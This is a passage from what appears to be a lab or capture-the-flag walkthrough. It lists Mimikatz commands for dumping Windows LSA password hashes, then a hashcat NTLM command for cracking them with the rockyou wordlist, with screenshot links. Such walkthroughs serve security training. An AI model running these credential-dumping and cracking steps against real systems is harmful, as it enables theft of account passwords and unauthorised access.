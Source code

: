 2. `privilege::debug` ensure that the output is "Privilege '20' ok"

!["aZjIrU7.png"](files/aZjIrU7.png)

3. `lsadump::lsa /patch` Dump those hashes!

!["6KnPn03.png"](files/6KnPn03.png)

**Crack those hashes w/ hashcat﻿**

1. `hashcat -m 1000 <hash> rockyou.txt`

!["ihEcxFA.png"](files/ihEcxFA.png)
